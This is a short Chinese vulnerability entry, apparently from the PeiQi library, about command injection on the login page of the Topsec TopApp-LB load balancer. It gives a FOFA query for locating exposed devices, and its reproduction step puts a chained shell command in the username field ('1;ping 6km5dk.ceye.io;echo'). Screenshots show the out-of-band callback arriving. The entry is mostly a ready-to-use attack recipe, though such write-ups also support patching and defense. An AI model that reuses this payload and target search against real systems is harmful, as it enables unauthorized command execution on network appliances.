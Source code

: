 ```yaml
---
title: 天融信负载均衡TopApp-LB命令执行漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - 天融信
---
```


# 天融信负载均衡TopApp-LB命令执行漏洞

## 漏洞描述

天融信负载均衡TopApp-LB系统存在任意命令执行

## 影响版本

天融信负载均衡TopApp-LB

## FOFA

> [!NOTE]
>
> app="天融信-TopApp-LB-负载均衡系统"

## 漏洞复现

登录界面中存在命令执行

账号:**1;ping 6km5dk.ceye.io;echo**

密码:**任意**

![](/img/20210924015446483132.png)

成功收到请求

![](/img/20210924015446687184.png)